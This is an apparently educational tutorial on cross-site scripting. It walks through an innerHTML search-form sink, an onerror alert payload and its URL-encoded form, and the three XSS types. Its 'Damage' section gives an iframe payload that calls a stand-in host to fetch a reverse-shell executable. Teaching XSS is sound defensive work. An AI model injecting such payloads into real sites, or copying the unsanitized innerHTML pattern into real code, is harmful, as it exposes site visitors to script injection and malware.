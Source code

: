# Cross Site Scripting (XSS)

## Video
[![Cross-Site Scripting (XSS) | HuskyHacks | HackerOne Veterans in Security Community Day](http://img.youtube.com/vi/XyewwMbV9OA/0.jpg)](http://www.youtube.com/watch?v=XyewwMbV9OA "Cross-Site Scripting (XSS) | HuskyHacks | HackerOne Veterans in Security Community Day")


## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

### Example

Consider the following block of HTML code:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist">
...
````
When this site renders in the browser, what happens? The site looks like this:

![xss1](../img/xss1.png)

If you put a reference to an image that does not exist right into the web page, a broken image icon will show up in its place. This is expected behavior.

What about this code block? Similar, but notice a small difference:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist" onerror="alert('hi!')"> >
...
````
Now, when the website is rendered, the additional `onerror` tag tells the website to trigger an alert box if there is some error on the page. And indeed, there is an error: the page is trying to load an image that does not exist!

When the page renders, it looks like this:

![xss2](../img/xss2.png)

This time, we get an error message alert. So far so good, right? We, as the page author, are just using the common HTML tags to add different things to the website.

Well, what happens when you allow the user to provide input in the form of a...well, form?

Consider this  HTML snippet of a form:
````html
...
 <form action="" method="GET">
    <input type="text" name="q">
    <input type="submit" value="Search">
</form>
...
````
````javascript
document.addEventListener('DOMContentLoaded', function() {
    var q = getQueryParameter('q');
    if (q) {
        search(q, function(error, results) {
        showQueryAndResults(q, results);
    });
  }
}
...

function showQueryAndResults(q, results) {
    var resultsEl = document.querySelector('#results');
    var html = '';
    html += '<p>Your search query:</p>';
    html += '<pre>' + q + '</pre>';
    html += '<ul>';
    for (var index = 0; index < results.length; index++) {
        html += '<li>' + results[index] + '</li>';
    }
    html += '</ul>';
    resultsEl.innerHTML = html;
  }
...
````
Notice the addition of the `<input type="text" name="q">` tag. What exactly is this doing?

Well, per the form's tag parameters, it will make a GET request (in this case, to nothing as it's just an example) and will add whatever is put in the search bar to the "q=" parameter. Since this is a <code>GET</code> request, this parameter is viewable in the URL of the page:

![xss3](../img/xss3.png)

The Javascript function that handles this form listens for a value that is added to the "q=" parameter and adds this value straight into the HTML of the page itself. Yikes!

Remember the broken image tag from before? How about we insert it into the page as the user, **not as the author** via XSS?

Through the URL, by using the insecure GET parameter of "q=" on this page, we will inject a **URL encoded HTML tag** to include the same broken image tag as before, with that exact same error. And, if the syntax is correct, the user will be able to include HTML in the page as if they were the author.

We will take the same syntax from before and URL encode it with a tool like this one: https://www.urlencoder.org/

`<img src="does-not-exist" onerror="alert('hi!')">`

becomes

`%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E`

...and we will inject this into the "q=" parameter in the website's URL:

![xss4](../img/xss4.png)

Then, we hit enter!

![xss5](../img/xss5.png)

The URL will automatically render the URL encoded characters when the form is submitted. What we're left with is an HTML tag that is dynamically added to the page by way of an evil user's actions.

## The Types
There are three types of XSS:
- Reflected XSS: a user action adds some kind of HTML or Javascript to the website page, then the input is evaluated by the server, and is processed as if it were in the client's own web browser. This type usually does not stay on the system after it is exploited.
- Stored XSS: Think of this as XSS that is added to the actual code on the server. For example, let's say there is a message forum that accepts a user's input as a comment on the message board. If this form is vulnerable to XSS, the malicious code will be posted to the forum itself rather than kept in the client's web browser. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- Document Object Model based XSS: XSS that occurs completely within a page's Document Object Model (DOM). The DOM is the client-side workspace where the web browser can interpret languages like Javascript. DOM XSS is commonly found when a page uses a Javascript function that appears in the URL and can be edited by the client.


## The Damage
XSS is not just a matter of popping up an alert on a website. An attacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of a particularly nasty Stored XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.